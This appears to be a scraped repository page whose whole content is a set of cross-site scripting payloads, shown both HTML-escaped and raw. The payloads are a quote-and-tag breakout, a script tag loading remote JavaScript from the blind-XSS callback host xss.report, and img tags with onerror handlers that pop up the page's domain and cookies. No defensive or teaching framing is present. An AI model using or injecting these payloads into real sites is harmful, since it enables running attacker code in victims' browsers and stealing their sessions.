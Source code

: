 # -script-src-https-xss.report-c-lover-script-
'/;//">&lt;script src=https://xss.report/c/lover>&lt;/script> &lt;img src="data:image/png;base64,iVBORw0KGgo=" onerror="prompt(document.domain)"> &lt;img src="data:image/png;base64,iVBORw0KGgo=" onerror="prompt(document.cookie)">
'/;//"><script src=https://xss.report/c/lover></script>
<img src="data:image/png;base64,iVBORw0KGgo=" onerror="prompt(document.domain)">
<img src="data:image/png;base64,iVBORw0KGgo=" onerror="prompt(document.cookie)">
